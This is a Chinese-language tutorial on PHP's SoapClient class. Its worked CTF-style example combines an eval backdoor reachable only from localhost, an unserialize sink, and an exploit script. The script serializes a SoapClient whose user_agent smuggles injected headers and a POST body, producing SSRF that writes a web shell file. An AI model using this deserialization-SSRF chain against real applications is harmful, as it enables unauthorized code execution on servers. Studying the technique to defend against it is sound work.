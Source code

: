 
> 
**soap是什么：**



> 
**php中的soapClient类：**<br/> php中的scapClient类可以创建soap数据报文，与wsdl接口进行交互


```
用法：

public SoapClient::SoapClient ( mixed $wsdl [, array $options ] )

第一个参数是用来指明是否是wsdl模式
如果为null，那就是非wsdl模式，反序列化的时候会对第二个参数指明的url进行soap请求

如果第一个参数为null，则第二个参数必须设置location和uri
  其中location是将请求发送到的SOAP服务器的URL
  uri是SOAP服务的目标名称空间

第二个参数允许设置user_agent选项来设置请求的user-agent头

```

> 



> 
示例


```
flag.php

&lt;?php
if($_SERVER['REMOTE_ADDR']=='127.0.0.1'){
    eval($_POST['a']);
}
?&gt;

index.php

&lt;?php
$c=unserialize($_GET['a']);
$c-&gt;ss();
?&gt;

exp.php

&lt;?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'a=file_put_contents("shell.php", "&lt;?php phpinfo();?&gt;");';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: aaaa=ssss'
);
$user_agent = 'aaa^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string;
$options = array(
    'location' =&gt; $target,
    'user_agent'=&gt; $user_agent,
    'uri'=&gt; "aaab"
);

$b = new SoapClient(null, $options);

$aaa = serialize($b);
```